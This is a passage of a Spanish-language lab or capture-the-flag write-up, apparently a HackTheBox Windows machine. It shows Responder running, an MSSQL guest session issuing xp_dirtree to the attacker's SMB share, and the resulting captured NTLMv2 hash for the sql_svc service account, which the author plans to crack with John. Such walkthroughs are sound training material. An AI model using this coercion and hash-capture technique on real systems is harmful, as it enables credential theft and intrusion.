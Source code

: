 ~~~bash
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-FZWKMXYJO9U]
    Responder Domain Name      [DISN.LOCAL]
    Responder DCE-RPC Port     [46990]

[+] Listening for events...
~~~
Y al momento de intentar conectarme a mi ip, se logra obtener un hash del usuario  sql_svc que parece ser una cuenta de servicio.
~~~bash
------------   -----   ----   
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.5\smb
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)> exit
~~~
Obteniendo 
~~~bash
[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:12d15f2c0d077517:099EDE2356D394125741D74960839A0D:0101<SNIP>0000
~~~
En este caso primero coloco el hash en un archivo e intento descifrarlo con john.
